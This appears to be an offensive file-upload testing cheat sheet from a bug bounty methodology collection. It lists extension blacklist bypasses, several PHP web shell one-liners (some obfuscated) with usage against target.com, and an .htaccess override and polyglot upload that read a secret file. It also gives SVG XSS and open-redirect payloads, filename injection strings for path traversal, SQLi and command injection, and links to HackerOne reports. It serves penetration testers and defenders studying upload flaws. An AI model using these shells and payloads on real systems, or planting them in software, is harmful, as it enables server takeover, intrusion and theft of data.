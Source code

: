 # File-Upload

> **File extension**

```
# extension blacklisted:
PHP: .phtm, phtml, .phps, .pht, .php2, .php3, .php4, .php5, .shtml, .phar, .pgif, .inc
ASP: .asp, .aspx, .cer, .asa
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion: .cfm, .cfml, .cfc, .dbm
Using random capitalization: .pHp, .pHP5, .PhAr
pht,phpt,phtml,php3,php4,php5,php6,php7,phar,pgif,phtm,phps,shtml,phar,pgif,inc
# extension whitelisted:
file.jpg.php
file.php.jpg
file.php.blah123jpg
file.php%00.jpg
file.php\\x00.jpg
file.php%00
file.php%20
file.php%0d%0a.jpg
file.php.....
file.php/
file.php.\\
file.
.html
```

* [ ] Upload `asp` file using `.cer` & `.asa` extension (IIS — Windows)
* [ ] Upload `.eml` file when `content-type = text/HTML`

> _**Payloads**_

```php
<?php system($_GET["cmd"]);?> # ?cmd= (ex: ?cmd=ls -la")
<?=`$_GET[0]`?>               # ?0=command

<?=`$_POST[0]`?>          
# Usage : curl -X POST http://target.com/path/to/shell.php -d "0=command"

<?=`{$_REQUEST['_']}`?>      
# Usage: http://target.com/path/to/shell.php?_=command OR curl -X POST http://target.com/path/to/shell.php -d "_=command" '

<?=$_="";$_="'" ;$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>
# Usage : http://target.com/path/to/shell.php?0=command

<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?><?=${'_'.$_}['_'](${'_'.$_}['__']);?>
# Usage : http://target.com/path/to/shell.php?_=function&__=argument http://target.com/path/to/shell.php?_=system&__=ls
```

> **Content type**

```
- Preserve name, but change content-type
Content-Type: image/jpeg, image/gif, image/png
```

> **Content length**

```
# Small bad code:
<?='$_GET[x]'?>    
```

> **Impact by extension**

```go
asp, aspx, php5, php, php3: -->  webshell, rce
svg:                        --> stored xss, ssrf, xxe
gif:                        --> stored xss, ssrf
csv:                        --> csv injection
xml:                        --> xxe 
avi:                        --> lfi, ssrf
html, js:                   --> html injection, xss, open redirect
png, jpeg:                  --> pixel flood attack dos
zip:                        --> rce via lfi, dos
pdf, pptx:                  --> ssrf, blind xxe
```

> **File name**

* [ ] Path traversal `../../etc/passwd/logo.png` `../../../logo.png`
* [ ] SQLi `'sleep(10).jpg` `sleep(10)-- -.jpg`
* [ ] Command injection `; sleep 10;`
* [ ] XSS `<svg onload=alert(document.comain)>.svg`

> **Other Test Cases**

*   [ ] Image-Tragic SVG images are just XML data. Using XML you can achieve lots of vulnerabilities, for instance Image Magic which is an image processing library is vulnerable to SSRF and RCE vulnerabilities.

    Source (Facebook RCE): [Facebook's ImageTragick Remote Code Execution (4lemon.ru)](http://4lemon.ru/2017-01-17\_facebook\_imagetragick\_remote\_code\_execution.html)
*   [ ] [**Web shell upload via extension blacklist bypass**](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass) **\[Overriding the server configuration]**

    ```php
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename=".htaccess"
    Content-Type: text/plain

    AddType application/x-httpd-php .l33t
    ------------------------------------------
    then 
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    Content-Disposition: form-data; name="avatar"; filename="exploit.l33t"
    Content-Type: application/octet-stream

    <?php echo file_get_contents('/home/carlos/secret'); ?>
    ------WebKitFormBoundary0G2tBRqMoRVtGqfG
    ```
*   [ ] [**Remote code execution via polyglot web shell upload**](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

    ```php
    exiftool.exe -Comment="<?php echo 'START ' . 'Hacked By h0tak88r :)' . ' END'; ?>" download.png -o polyglot.php
    ```
* [ ] EXIF-DATA not Stripped
  1. Got to Github ( https://github.com/ianare/exif-samples/tree/master/jpg)\

  2. There are lot of images having resolutions (i.e 1280 \* 720 ) , and also whith different MB’s .\

  3. Go to Upload option on the website\

  4. Upload the image\

  5. see the path of uploaded image ( Either by right click on image then copy image address OR right click, inspect the image, the URL will come in the inspect , edit it as html )
  6. open it (http://exif.regex.info/exif.cgi)
  7. See whether is that still showing exif data , if it is then Report it. **Reports (Hackerone)**
  8. [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)

> **File Upload Exploitation**

*   **SVG file To XSS**

    ```jsx
    	<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
    	<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
    	<script type="text/javascript">
    	alert("h0tak88r XSS");
    	</script>
    	</svg>
    ```
*   **Open Redirect when uploading svg files**

    ```xml
        <code>
        <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
        <svg
        onload="window.location='<http://www.google.com>'"
        xmlns="<http://www.w3.org/2000/svg>">
        </svg>
        </code>
        
    ```

## Top Upload reports from HackerOne:

1. [Remote Code Execution on www.semrush.com/my\_reports on Logo upload](https://hackerone.com/reports/403417) to Semrush - 792 upvotes, $0
2. [Webshell via File Upload on ecjobs.starbucks.com.cn](https://hackerone.com/reports/506646) to Starbucks - 673 upvotes, $0
3. [Blind XSS on image upload](https://hackerone.com/reports/1010466) to CS Money - 412 upvotes, $1000
4. [Unrestricted file upload on \[ambassador.mail.ru\] ](https://hackerone.com/reports/854032)to Mail.ru - 404 upvotes, $3000
5. [\[ RCE \] Through stopping the redirect in /admin/\* the attacker able to bypass Authentication And Upload Malicious File](https://hackerone.com/reports/683957) to Mail.ru - 340 upvotes, $0
6. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/808862) to Visma Public - 268 upvotes, $250
7. [SSRF leaking internal google cloud data through upload function \[SSH Keys, etc..\]](https://hackerone.com/reports/549882) to Vimeo - 249 upvotes, $0
8. [Arbitrary File Upload to Stored XSS](https://hackerone.com/reports/808821) to Visma Public - 245 upvotes, $250
9. [Unrestricted File Upload Leads to RCE on mobile.starbucks.com.sg](https://hackerone.com/reports/1027822) to Starbucks - 225 upvotes, $0
10. [Admin Management - Login Using Default Password - Leads to Image Upload Backdoor/Shell](https://hackerone.com/reports/699030) to Razer - 199 upvotes, $200
11. [External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing](https://hackerone.com/reports/1062888) to TikTok - 139 upvotes, $2727
12. [Unrestricted file upload in www.semrush.com > /my\_reports/api/v1/upload/image](https://hackerone.com/reports/748903) to Semrush - 124 upvotes, $0
13. [User can upload files even after closing his account](https://hackerone.com/reports/1020371) to Basecamp - 114 upvotes, $0
14. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 112 upvotes, $0
15. [Insecure file upload in xiaoai.mi.com Lead to Stored XSS](https://hackerone.com/reports/882733) to Xiaomi - 107 upvotes, $0
16. [Unrestricted File Upload on https://partner.tiktokshop.com/wsos\_v2/oec\_partner/upload](https://hackerone.com/reports/1890284) to TikTok - 98 upvotes, $0
17. [\[insideok.ru\] Remote Command Execution via file upload.](https://hackerone.com/reports/666716) to ok.ru - 94 upvotes, $0
18. [Avatar upload allows arbitrary file overwriting](https://hackerone.com/reports/671605) to Mail.ru - 88 upvotes, $750
19. [Unrestricted file upload leads to Stored XSS](https://hackerone.com/reports/880099) to GitLab - 82 upvotes, $0
20. [Unauthenticated user can upload an attachment to the last updated report draft](https://hackerone.com/reports/419896) to HackerOne - 80 upvotes, $0
21. [XSS from arbitrary attachment upload.](https://hackerone.com/reports/831703) to Qulture.Rocks - 74 upvotes, $0
22. [Open s3 bucket allows for public upload](https://hackerone.com/reports/504600) to Augur - 73 upvotes, $100
23. [SSRF and local file disclosure by video upload on https://www.redtube.com/upload](https://hackerone.com/reports/570537) to Pornhub - 61 upvotes, $500
24. [Cross site scripting via file upload in subdomain ads.tiktok.com](https://hackerone.com/reports/1433125) to TikTok - 59 upvotes, $500
25. [Unrestricted file upload when creating quotes allows for Stored XSS](https://hackerone.com/reports/788397) to Visma Public - 57 upvotes, $250
26. [Singapore - Unrestricted File Upload Leads to XSS on campaign.starbucks.com.sg/api/upload](https://hackerone.com/reports/883151) to Starbucks - 57 upvotes, $0
27. [Stored XSS on upload files leads to steal cookie](https://hackerone.com/reports/765679) to Palo Alto Software - 56 upvotes, $0
28. [SSRF and local file disclosure by video upload on https://www.tube8.com/](https://hackerone.com/reports/574133) to Pornhub - 53 upvotes, $500
29. [Unrestricted File Upload Results in Cross-Site Scripting Attacks](https://hackerone.com/reports/1005355) to Uber - 53 upvotes, $0
30. [SSRF in VCARD photo upload functionality](https://hackerone.com/reports/296045) to Open-Xchange - 49 upvotes, $850
